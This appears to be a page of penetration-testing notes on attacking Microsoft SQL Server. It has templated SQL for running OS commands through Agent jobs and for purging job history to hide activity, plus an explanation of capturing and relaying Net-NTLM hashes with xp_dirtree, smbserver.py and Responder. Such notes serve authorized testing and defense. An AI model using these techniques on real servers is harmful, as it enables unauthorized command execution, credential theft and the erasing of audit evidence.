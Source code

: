 ```sql
-- Deletes the specified SQL Server Agent jobs.
EXEC msdb.dbo.sp_delete_job @job_name = N'<JOBS_NAME>';
EXEC msdb.dbo.sp_delete_job @job_id = N'<JOBS_ID>';

-- Deletes SQL Server Agent jobs history.
EXEC msdb.dbo.sp_purge_jobhistory @job_name = N'<JOBS_NAME>';
EXEC msdb.dbo.sp_purge_jobhistory @job_id = N'<JOBS_ID>';
-- Members of the sysadmin or SQLAgentOperatorRole roles can delete all local jobs history (and  multiservers jobs history as well for sysadmin).
EXEC msdb.dbo.sp_purge_jobhistory;

-- Creates and runs a SQL Server Agent job with a single CmdExec / PowerShell step to execute an operating system command.
EXEC msdb.dbo.sp_add_job @job_name = N'<JOBS_NAME>';
-- A proxy can be specified using proxy_id (@proxy_id = <1 | PROXY_ID>) or proxy_name (@proxy_name = <PROXY_NAME>) to run the jobs step under the identity of another identity.
EXEC msdb.dbo.sp_add_jobstep @job_name = N'<JOBS_NAME>', @step_name = N'<JOBS_STEP>', @subsystem = N'<CmdExec | PowerShell>', @command = N'<CMD_COMMAND | POWERSHELL_COMMAND>', @retry_attempts = <1 | RETRY_ATTEMPTS>, @retry_interval = <1 | RETRY_INTERVAL_IN_MINUTES>;
-- The job will be executed on the local server by default. If necessary, the sp_add_jobserver procedure can be used to attach the job to a remote server (registered as a target server for the current instance).
EXEC msdb.dbo.sp_add_jobserver @job_name = N'<JOBS_NAME>', @server_name = N'<LOCAL | SERVER_NAME>';
EXEC msdb.dbo.sp_start_job N'<JOBS_NAME>'
```

### Net-NTLM stealer and relaying

The (undocumented) `xp_dirtree`, `xp_fileexist` and `xp_getfiledetails` SQL
stored procedures can be used to access files on remote systems over `SMB`.
The account running the SQL service, be it a local or domain joined account,
will authenticate to the `SMB` share by completing a `Net-NTLMv1` or
`Net-NTLMv2` challenge.

This response can be offline cracked to retrieve the password of the SQL
service account. The authentication challenge can also be relayed in order
to directly execute commands as the account running the SQL service through the
`SMB` service of a targeted server. The targeted server must expose a `SMB`
service that does not require message signing and the SQL service account must
have local administrator privileges on the server. For more information on how
to conduct this attack, refer to the `Active Directory - NTLM Relaying` note.   

Depending on the permissions configured to use the procedures, a non privileged
user may be able to execute them. Usually, the account connecting to the
database should only require the `PUBLIC` role to execute the procedures.

To capture the `Net-NTLM` response, a `SMB` share service or `Responder` must
be started:

```bash
smbserver.py -smb2support <SHARE_NAME> <LOCAL_DIRECTORY>

Responder.py -I <INTERFACE>
```
